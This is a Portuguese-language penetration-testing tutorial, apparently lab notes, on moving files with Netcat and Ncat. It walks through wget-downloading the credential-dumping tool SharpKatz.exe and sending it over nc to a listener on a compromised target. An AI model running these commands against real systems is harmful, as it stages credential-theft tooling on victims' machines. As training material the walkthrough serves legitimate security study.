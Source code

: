## NetCat
``NetCat`` é um utilitário de rede para a leitura e gravação de conexões de rede usando TCO ou UDP, então podemos usa-lo para a transferência de arquivos.

O Netcat original foi [lançado](http://seclists.org/bugtraq/1995/Oct/0028.html) pela Hobbit em 1995, mas não foi mantido apesar de sua popularidade. A flexibilidade e utilidade desta ferramenta levaram o Projeto Nmap a produzir [o Ncat](https://nmap.org/ncat/) , uma reimplementação moderna que suporta proxies SSL, IPv6, SOCKS e HTTP, corretagem de conexão e muito mais.

## Transferência de arquivos com Netcat e Ncat
O alvo ou máquina atacante pode ser usado para iniciar a conexão, o que é útil se um firewall impede o acesso ao alvo. Vamos criar um exemplo e transferir uma ferramenta para nosso alvo.

Neste exemplo, transferiremos [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) do nosso Pwnbox para a máquina comprometida. Faremos isso usando dois métodos. Vamos trabalhar no primeiro.

Primeiro, iniciaremos o Netcat ( `nc`) na máquina comprometida, escutando com a opção `-l`, selecionando a porta para escutar com a opção `-p 8000`e redirecionando o [stdout](https://en.wikipedia.org/wiki/Standard_streams#Standard_input_(stdin)) usando um único maior que `>`seguido pelo nome do arquivo, `SharpKatz.exe`.

Se a máquina comprometida estiver usando Ncat, precisaremos especificar `--recv-only` para o fechamento da conexão quando a transferência do arquivo for concluída.

#### NetCat - Máquina comprometida - Escutando na porta 8000
```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

Se a máquina comprometida estiver usando Ncat, precisaremos especificar `--recv-only` para o fechamento da conexão quando a transferência do arquivo for concluída.
```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

#### Ncat - Máquina comprometida - Escutando na porta 8000
```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

Do nosso host de ataque, conectaremos à máquina comprometida na porta 8000 usando o Netcat e enviaremos o arquivo [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) como entrada para o Netcat. A opção `-q 0` dirá ao Netcat para fechar a conexão quando ela terminar. Dessa forma, saberemos quando a transferência do arquivo foi concluída.

#### Netcat - Host de ataque - Enviando arquivo para máquina comprometida
```shell-session
NycolasES6@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
NycolasES6@htb[/htb]$ # Example using Original Netcat
NycolasES6@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

